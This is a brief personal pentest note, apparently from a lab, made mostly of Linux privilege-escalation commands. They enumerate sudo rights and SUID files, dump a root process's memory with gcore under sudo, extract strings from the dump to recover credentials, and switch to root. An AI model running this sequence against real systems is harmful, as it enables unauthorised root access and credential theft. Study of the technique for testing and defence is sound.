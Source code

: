 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo -l
```

![[Pasted image 20221115144913.png]]

```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![[Pasted image 20220407154438.png]]

```bash - kali
ps aux | grep root
```

![[Pasted image 20220407154514.png]]

```bash - kali
sudo -u root /usr/bin/gcore -a -o /home/$USER/output 25737
```

```bash - kali
strings /home/$USER/output.25737
```

```bash - kali
su root
```



